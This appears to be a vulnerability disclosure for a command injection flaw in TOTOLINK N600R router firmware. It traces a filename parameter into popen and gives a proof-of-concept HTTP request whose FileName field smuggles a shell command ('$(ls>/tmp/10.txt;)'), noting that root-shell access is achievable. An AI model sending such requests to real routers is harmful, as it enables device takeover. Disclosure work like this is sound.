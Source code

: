 # TOTOlink N600R V5.3c.7159_B20190425 Command injection vulnerability

## Overview

- Manufacturer's website information：http://www.totolink.cn
- Firmware download address ： http://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=2&ids=36

## 1. Affected version

![image-20220406182121036](img/image-20220406182121036.png)

Figure 1 shows the latest firmware Ba of the router

## Vulnerability details

![image-20220406184236808](img/image-20220406184236808.png)

The program passes the content obtained through the filename function to V6, then formats the matched content into V33 through the sprintf function, and then brings V33 into getcmdstr

![image-20220406184258308](img/image-20220406184258308.png)

At this time, the corresponding parameter A1 is finally brought into the Popen function, and there is a command injection vulnerability.

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Use the fat simulation firmware V5.3c.7159_B20190425
2. Attack with the following POC attacks

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
Content-Length: 102
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.0.1
Referer: http://192.168.0.1/telnet.asp?timestamp=1647874864
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: SESSION_ID=2:1647874864:2
Connection: close

{"topicurl":"setting/setUploadSetting",
"FileName":"test1$(ls>/tmp/10.txt;)",
"ContentLength":"1"
}
```

The reproduction results are as follows:

![image-20220406184353443](img/image-20220406184353443.png)

![image-20220406184345677](img/image-20220406184345677.png)

Figure 2 POC attack effect

Finally, you can write exp, which can achieve a very stable effect of obtaining the root shell

